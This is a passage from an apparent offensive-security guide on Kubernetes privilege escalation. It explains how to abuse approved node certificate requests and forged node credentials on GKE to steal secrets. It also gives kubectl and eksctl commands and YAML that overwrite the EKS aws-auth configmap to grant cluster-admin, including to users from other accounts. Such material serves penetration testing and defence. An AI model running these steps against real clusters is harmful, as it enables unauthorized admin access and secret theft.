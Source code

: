 ```yaml
  - approve
```

So, with the new node CSR approved, you can **abuse** the special permissions of nodes to **steal secrets** and **escalate privileges**.

In [**this post**](https://www.4armed.com/blog/hacking-kubelet-on-gke/) and [**this one**](https://rhinosecuritylabs.com/cloud-security/kubelet-tls-bootstrap-privilege-escalation/) the GKE K8s TLS Bootstrap configuration is configured with **automatic signing** and it's abused to generate credentials of a new K8s Node and then abuse those to escalate privileges by stealing secrets.\
If you **have the mentioned privileges yo could do the same thing**. Note that the first example bypasses the error preventing a new node to access secrets inside containers because a **node can only access the secrets of containers mounted on it.**

The way to bypass this is just to **create a node credentials for the node name where the container with the interesting secrets is mounted** (but just check how to do it in the first post):

```bash
"/O=system:nodes/CN=system:node:gke-cluster19-default-pool-6c73b1-8cj1"
```

### AWS EKS aws-auth configmaps

Principals that can modify **`configmaps`** in the kube-system namespace on EKS (need to be in AWS) clusters can obtain cluster admin privileges by overwriting the **aws-auth** configmap.\
The verbs needed are **`update`** and **`patch`**, or **`create` ** if configmap wasn't created:

{% code overflow="wrap" %}
```bash
# Check if config map exists
get configmap aws-auth -n kube-system -o yaml

## Yaml example
apiVersion: v1
kind: ConfigMap
metadata:
  name: aws-auth
  namespace: kube-system
data:
  mapRoles: |
    - rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
      username: system:node:{{EC2PrivateDNSName}}
      groups:
        - system:masters

# Create donfig map is doesn't exist
## Using kubectl and the previous yaml
kubectl apply -f /tmp/aws-auth.yaml
## Using eksctl
eksctl create iamidentitymapping --cluster Testing --region us-east-1 --arn arn:aws:iam::123456789098:role/SomeRoleTestName --group "system:masters" --no-duplicate-arns

# Modify it
kubectl edit -n kube-system configmap/aws-auth
## You can modify it to even give access to users from other accounts
data:
  mapRoles: |
    - rolearn: arn:aws:iam::123456789098:role/SomeRoleTestName
      username: system:node:{{EC2PrivateDNSName}}
      groups:
        - system:masters
  mapUsers: |
    - userarn: arn:aws:iam::098765432123:user/SomeUserTestName
      username: admin
      groups:
        - system:masters
```